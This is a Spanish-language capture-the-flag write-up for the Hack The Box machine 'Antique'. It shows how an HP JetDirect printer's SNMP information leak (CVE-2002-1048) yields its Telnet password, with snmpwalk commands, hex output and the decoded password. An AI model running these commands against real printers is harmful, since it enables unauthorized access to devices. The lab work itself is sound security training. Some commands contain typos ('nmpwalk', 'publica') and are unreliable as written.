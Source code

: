 Al investigar qué es una **JetDirect**, se descubre que es básicamente una impresora que puede conectarse a **Internet**.
![quees](/antique/quees.png)

Y al buscar sobre la posible **contraseña** por defecto, se encuentra que esta es asignada por el servidor, por lo que no se puede encontrar de momento.

![default](/antique/default.png)


Al investigar en internet, se puede ver que existe el [**CVE-2002-1048**](https://nvd.nist.gov/vuln/detail/CVE-2002-1048), que consiste en una **divulgación de información** con el que se pueden ver las credenciales de la impresora para el servicio **Telnet**. El problema de este ataque es que es necesario contar con dos cosas: que se encuentre habilitado el servicio **SNMP** (cosa que ya se descubrió) y se necesita saber el **community name**, que por defecto es **public**, pero para las impresoras **JetDirect** también puede ser **internal**. Con esto se puede probar qué sucede; una gran explicación de todo esto se encuentra en el siguiente blog http://www.irongeek.com/i.php?page=security/networkprinterhacking.(Debo dejar la url hardcodeada ya qué como no usa https no me permite subirlo como link) 

Por lo que se puede realizar la validación gracias **nmpwalk**  con el siguiente comando:


```bash
nmpwalk -v 2c -c public 10.10.11.107
iso.3.6.1.2.1 = STRING: "HTB Printer"
```
{: .nolineno}


## Explotación

Ahora que se tiene el nombre del **equipo**, se puede intentar revisar más información dentro del mismo, donde se puede ver su **contraseña** revisando a mayor nivel la profundidad del árbol.

```bash
snmpwalk -v 2c -c publica 10.10.11.107 1
iso.3.6.1.2.1 = STRING: "HTB Printer"
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
iso.3.6.1.4.1.11.2.3.9.1.2.1.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
```
{: .nolineno}

Y en teoría, dentro del valor que se encuentra después de la cadena BITS:, debería contener la contraseña de Telnet en valor **hexadecimal**.Por lo que se usa un [decodificador en línea](https://www.rapidtables.com/convert/number/hex-to-ascii.html) y se ve que se obtiene una posible contraseña.

![decoder](/antique/decode.png)


```bash
P@ssw0rd@123!!123q"2Rbs3CSs$4EuWGW(8i	IYaA"1&1A5
```
{: .nolineno}
